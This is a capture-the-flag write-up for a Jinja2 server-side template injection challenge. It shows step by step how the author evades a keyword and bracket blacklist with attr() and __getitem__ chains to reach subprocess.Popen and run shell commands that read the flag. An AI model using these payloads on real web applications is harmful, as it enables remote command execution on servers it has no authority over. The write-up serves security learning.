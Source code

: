 # Challenge link
URL:      [http://45.122.249.68:20029/](http://45.122.249.68:20029/) (maybe the server was shut down)

# Challenge description
I forgot it :>

# Challenge source file
     https://1drv.ms/u/s!AnKnTgw0LN8rfXAkFgu81Lp1urI?e=yEia5a
- Run app.py with Python and the challenge will be hosted on localhost
# Difficulty
Normal

# Author
I forgot it, too :v

# Approach
- The first thing that happened when I connected to the site was being redirected to /wannaw1n?c=hacker :
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/27d24f9e-51d8-493e-aec3-a4ae99532494)

- I tried to change *hacker* to something like *lmao* :
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/c44aa626-dca0-4312-b4c5-67575f824879)
  

- In this situation, I was thinking about SSTI (Jinja2 template for details), so I tried *{{ 7\*7 }}* :
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/34b348f2-5cdf-4437-b099-3048327a4fdc)

- The result confirmed that it was an SSTI attack and the template they used is Jinja2. Now let's construct the payload.

# Problem-solving
  ## Payload constructing
  - I found some interesting Jinja2 template payloads in [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)
  - First, I tried to inject a random payload to see the behavior of the application:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/29595e75-1eb4-436e-881a-76b2d76faf0a)

  - It has a blacklist, so I should find out what was banned here:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/b7936439-0f40-4aee-9ecf-75c0d088cf30)
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/10e6da94-58d4-4691-adc0-8cf76c3f2e71)
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/e4bb3a93-3d51-4ff6-bcef-055b417f959f)
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/475d3570-bb2f-422d-b824-8050bbe771de)

  - And many more banned words/characters. For no time consumption, I built my payload. Because '.' was banned, I used the attr() function instead:
  - I chose this payload at the link above :
    ```
    {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()}}
    ```

    ```
    {{ ''|attr('__class__')|attr('__mro__') }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/1c5ac358-020f-4a58-b68e-a6e65eca3a56)

  - Because '[' and ']' was blocked, I decided to use *__getitem__* method to get the item at a specific index:

    ```
    {{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')() }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/a91a6711-7b73-429d-b606-db4fca49c8c8)

  - With some Python lines, I found that *<class 'subprocess.Popen'>* was indexed as 279:

    ```
    {{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(279) }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d30a043c-499a-423e-a5bc-00fccf8e88f5)

  - Popen let us execute os code.

    ```
    {{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(279)('ls', shell=True, stdout=-1)|attr('communicate')() }}
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/3d8ae101-0bb8-4e2e-8000-7e5f038b79f6)

  - Cat flag:
    
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/862aadb1-9d29-4757-97a0-e892c603afc8)

  - It was blocked. I thought that they also blocked *flag*, so I tried *cat \** :
    
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/338b92ba-a6e1-472e-8fc8-b0b71728ae57)

  - Flag: W1{U_are_master_in_SSTI}
